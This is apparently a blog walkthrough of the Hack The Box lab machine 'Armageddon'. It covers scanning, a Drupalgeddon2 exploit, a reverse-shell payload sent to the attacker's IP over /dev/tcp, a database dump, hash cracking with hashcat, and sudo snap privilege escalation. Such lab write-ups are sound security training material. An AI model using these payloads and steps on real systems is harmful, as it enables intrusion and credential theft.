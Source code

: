 ```yaml
---
title: "HTB - Armageddon without MetaSploit"
date: 2021-07-31
categories: ["hacking", "write-ups"]
tags: [HTB]
featuredImage: "/images/2021/07/Armageddon_Logo.png"
---
```

## Intro
During this box, I'll exploit an outdated version of Drupal in order to get an initial shell. This will allow me to discover user credentials on the Drupal DB. Finally, I'll get privesc thanks to an insecure sudo command (once again).

## Target
[HTB - Armageddon](https://app.hackthebox.eu/machines/323)

## Recon
A quick look to the box info reveals it's running Linux.

## Enum
We run our classic `nmap` scan :

```text
sudo nmap -sC -sV -oA scans\armageddon
```
```text
sudo nmap -sC -sV -oA scans/nmap 10.129.127.84
 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-08 08:51 CEST
Nmap scan report for 10.129.127.84
Host is up (0.025s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.48 seconds
```

The above scans confirms I am facing a Linux box with only Apache and SSH running. 

The `CHANGELOG.txt` shows a `Drupal 7.56` version :

![Drupal Version](/images/2021/07/Armageddon_Drupal_Version.png)

After a quick look on [exploitDB](https://www.exploit-db.com/), I notice that this version should be vulnerable to `Drupalgeddon2`.

Let's see!

## Exploitation
I like to use searchsploit directly in my terminal, it makes it easier to show an exploit with `searchsploit -x relative_path` and `searchsploit -m relative_path` in order to mirror (eg. copy the exploit in my current directory).

In my case, I'll by using : `searchsploit -m php/webapps/44449.rb`.

### Getting Initial Shell
After firing it up, I'll get a shell :

![Initial Shell](/images/2021/07/Armageddon_Initial_Shell.png)

From here, I can get the Drupal config inside `sites/default/settings.php` and find `MySQL credentials` :

![MySQL Credentials](/images/2021/07/Armageddon_Mysql_Creds.png)

Once, I had the creds, I tried to dump the db, with `mysqldump`, but got an error about a bad character (>). This is when I decided to upgrade my shell.

I fired up `Burp`, with the following request and a `nc listener` :

```text
POST /shell.php HTTP/1.1
Host: 10.129.127.84
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: has_js=1
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 46

c=bash+-i+>%26+/dev/tcp/10.10.14.11/443+0>%261
```

In case you are wondering, I am using the `shell.php` from the exploit, and I simply copy pasted the URL in browser, captured it with Burp, and converted to POST. Then, I could run a better script.

Once it was done, I could dump the DB like so :

`mysqldump -u drupaluser -p drupal > plop.sql`

I then looked inside the dump and looked for user's information :

![User Info](/images/2021/07/Armageddon_Dump.png)

It appears our user is called `brucetherealadmin` and it's hash starts with `$S$` according to [hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes), it is a Drupal 7 hash, which I can confirm it is!

Now to crack it :

`hashcat -m 7900 arma.hash /usr/share/wordlists/rockyou.txt`

After a little while, the password will be cracked :

![Cracked hash](/images/2021/07/Armageddon_Cracked.png)

### Getting User's Shell

We can now log in via SSH as `brucetherealadmin` with the just cracked password, and grab `user's flag` :

![User Flag](/images/2021/07/Armageddon_User_Flag.png)

### PrivEsc
Now that we are in, the first thing I like to do is checking if I have `sudo`'s rights. This might be an easy win and it is a lot quieter than running a script such as `LinPeas`.

Bruce can indeed run `sudo snap install` :

![Bruce sudo](/images/2021/07/Armageddon_Bruce_Sudo.png)

When I first did the box, there was nothing on [GTFObins](https://gtfobins.github.io/), but since there is today, let's do it the easy way!

I simply modified the first line with, replacing `id` command with `cat /root/root.txt`. 

Finally, run it like : `sudo snap install plop_1.0_all.snap --dangerous --devmode` in order to get root's flag:

![Root Flag](/images/2021/07/Armageddon_Root_Flag.png)

## Outro
I remember loving the first part until user... but the last part was just horrible. I hated it ! It was actually so painful, that I didn't take any note on the privesc and didn't even planned to do the writeup... but here I am!